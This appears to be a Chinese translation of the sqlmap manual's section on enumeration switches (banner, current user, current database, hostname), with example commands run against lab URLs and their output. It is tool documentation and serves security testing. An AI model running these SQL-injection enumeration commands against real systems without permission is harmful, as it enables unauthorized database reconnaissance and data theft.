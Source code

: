 ## 枚举

以下选项可用于枚举后端 DBMS（Database Management System，数据库管理系统）信息、表结构和表中包含的数据。此外，你还可以运行自定义的SQL 语句。

### 获取全部数据

开关：`--all`

当用户想要通过使用单个开关远程获取所有可访问数据信息，可以使用该开关。通常不建议这么做，因为它会产生大量的请求同时获取有用无用的数据。

### Banner

开关：`-b` 或 `--banner`

大多数现代 DBMS 具有一个函数和/或一个环境变量，它会返回 DBMS 版本，并最终在其补丁级别详细介绍底层系统。通常这个函数是 `version()` ，环境变量是 `@@version`，这取决于目标 DBMS。

针对 Oracle 目标的示例：

```
$ python sqlmap.py -u "http://192.168.136.131/sqlmap/oracle/get_int.php?id=1" -\
-banner

[...]
[xx:xx:11] [INFO] fetching banner
web application technology: PHP 5.2.6, Apache 2.2.9
back-end DBMS: Oracle
banner:    'Oracle Database 10g Enterprise Edition Release 10.2.0.1.0 - Prod'
```

### 当前会话用户

开关：`--current-user`

使用此开关，可以从 Web 应用程序中获取到当前正在执行相关数据库查询操作的 DBMS 用户。

### 当前数据库

开关：`--current-db`

使用此开关可以获取 Web 应用程序连接到的 DBMS 数据库名称。

### 服务器主机名

开关：`--hostname`

使用此开关可以获取 DBMS 所在的主机名。

针对 MySQL 目标的示例：

```
$ python sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/get_int.php?id=1" --\
hostname

[...]
[xx:xx:04] [INFO] fetching server hostname
[xx:xx:04] [INFO] retrieved: debian-5.0-i386
hostname:    'debian-5.0-i386'
```
